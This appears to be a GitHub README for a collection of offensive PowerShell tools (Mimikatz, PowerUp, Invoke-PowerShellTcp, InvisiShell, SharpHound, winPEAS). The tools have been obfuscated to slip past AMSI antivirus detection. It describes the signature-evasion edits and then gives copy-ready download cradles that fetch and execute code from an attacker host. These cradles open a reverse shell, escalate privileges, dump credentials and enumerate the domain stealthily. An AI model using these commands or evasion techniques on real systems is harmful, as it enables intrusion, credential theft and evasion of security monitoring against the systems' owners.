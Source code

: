 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## bypasses

- `Invoke-Mimimkatz`
    - The source VS solution had to be edited manually as the reflective assembly blob is signatured pretty hard. After compiling you can use that update script online (google it) and update the blob.
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`.

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - No changes.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (wow. terrible signature.)

## to-be-added

- `SessionHunter`
- `PowerView`
- `Rubeus`

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will instantly get caught

- Reverse Shell
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- Load `InvisiShell`
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- Privilege Escalation
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- Dump Creds
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- Domain Abuse

**SHARPHOUND TOUCHES DISK OBVIOUSLY**

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```